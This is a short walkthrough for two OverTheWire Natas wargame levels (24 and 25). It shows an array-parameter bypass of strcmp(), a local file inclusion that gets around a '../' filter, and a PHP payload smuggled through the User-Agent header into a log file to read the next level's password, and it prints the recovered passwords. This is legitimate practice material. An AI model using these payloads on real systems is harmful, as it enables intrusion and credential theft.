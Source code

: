### Level 24

Change GET request to make strcmp() fail

```
http://natas24.natas.labs.overthewire.org/?passwd[]=


The credentials for the next level are:

Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

### Level 25
LFI on lang and command injection in logRequest()through HTTP user-agent. Note that safeinclude() filters ../

```
http://natas25.natas.labs.overthewire.org/?lang=../
Warning: include(/var/www/natas/natas25/language): failed to open stream: No such file or directory in /var/www/natas/natas25/index.php on line 38

set user-agent: <?php echo file_get_contents('/etc/natas_webpass/natas26') ?> or <? readfile('/etc/natas_webpass/natas26') ?>

http://natas25.natas.labs.overthewire.org/?lang=../.../...//logs/natas25_doj42nqbdkb1dlkdcqgc54hk33.log
oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

